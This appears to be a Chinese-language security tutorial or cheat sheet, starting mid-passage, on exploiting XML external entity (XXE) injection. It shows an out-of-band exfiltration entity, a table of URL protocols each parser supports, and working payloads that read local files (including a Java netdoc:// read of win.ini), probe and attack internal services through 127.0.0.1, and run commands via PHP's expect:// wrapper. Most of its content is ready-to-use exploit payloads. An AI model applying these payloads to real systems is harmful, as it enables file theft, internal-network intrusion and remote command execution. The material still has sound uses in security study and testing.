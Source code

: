             实例化%all
            <?xml version="1.0"?>
            <!DOCTYPE data [
             	<!ENTITY send SYSTEM 'http://localhost:88%file;'>
            ]> 
            <a>&send;</a>
            
            实例化&send，就是普通的外部实体了。
            ```

## XXE漏洞利用

> 发起url请求，不就和ssrf利用一样。

| LIBXML2 |      PHP       |   JAVA   | .NET  |
| :-----: | :------------: | :------: | :---: |
|  file   |      file      |   http   | file  |
|  http   |      http      |  https   | http  |
|   ftp   |      ftp       |   ftp    | https |
|         |      php       |   file   |  ftp  |
|         | compress.zlib  |   jar    |       |
|         | compress.bzip2 |  netdoc  |       |
|         |      data      |  mailto  |       |
|         |      glob      | gopher * |       |
|         |      phar      |          |       |

读取任意文件（file协议）：

- 不支持相对路径
- php伪协议处理数据，比如base64编码数据。

java中存在一个netdoc协议，在大部分情况下可代替file

- ```
    <?xml version="1.0"?>
    <!DOCTYPE GVI[<!ENTITY xxe SYSTEM "netdoc:///C:/windows/win.ini" >]>
    <user><username>&xxe;</username><password>admin</password></user>
    ```

http/https协议：

- 探测内网端口：`<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>`
- 攻击内网网站：结合其他漏洞`<!ENTITY xxe SYSTEM "http://127.0.0.1:80/payload" >]>`

RCE:

- php:
    - 在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令
    - `<!ENTITY xxe SYSTEM "expect://id" >]>`
